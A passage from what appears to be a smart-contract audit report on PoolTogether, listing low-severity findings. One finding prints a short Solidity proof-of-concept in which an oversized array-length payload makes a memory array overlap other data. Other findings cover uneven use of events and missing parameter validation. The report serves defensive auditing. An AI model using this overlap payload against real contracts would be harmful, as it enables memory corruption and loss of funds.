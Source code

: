 Using memory array parameters (e.g.` uint[]` memory) as function parameters can be tricky in Solidity, because an attack is possible with a very large array which will overlap with other parts of the memory.

This an example to show the exploit based on [`Exploit.sol`](https://github.com/paradigm-operations/paradigm-ctf-2021/blob/master/swap/private/Exploit.sol):
```solidity
pragma solidity ^0.4.24; // only works with low solidity version

contract test{
    struct Overlap {
        uint field0;
    }
    event log(uint);

  function mint(uint[] memory amounts) public  returns (uint) {   // this can be in any solidity version
       Overlap memory v;
       v.field0 = 1234;
       emit log(amounts[0]); // would expect to be 0 however is 1234
       return 1;
     }

  function go() public { // this part requires the low solidity version
      uint x=0x800000000000000000000000000000000000000000000000000000000000000; // 2^251
      bytes memory payload = abi.encodeWithSelector(this.mint.selector, 0x20, x);
      bool success=address(this).call(payload);
  }
}
```

Recommend checking the array length before using it

**[asselstine (PoolTogether) confirmed](https://github.com/code-423n4/2021-06-pooltogether-findings/issues/75#issuecomment-868867927):**
 > We're going to remove the timelock functions.  The initializer I'm not concerned about.

## [[L-13] Uneven use of events](https://github.com/code-423n4/2021-06-pooltogether-findings/issues/78)
_Submitted by JMukesh_

To track off-chain data it is necessary to use events

In `ATokenYieldSource.sol`, `IdleYieldSource.sol`, and `yearnV2yieldsource`, events are emmitted in `supplyTokenTo()`, `redeemToken()`, and `sponsor()`, but not in `BadgerYieldsource.sol` and `shushiyieldsource.sol`

Recommend using events.

**[asselstine (PoolTogether) confirmed](https://github.com/code-423n4/2021-06-pooltogether-findings/issues/78)**

## [[L-14] Missing parameter validation](https://github.com/code-423n4/2021-06-pooltogether-findings/issues/81)
_Submitted by cmichel_
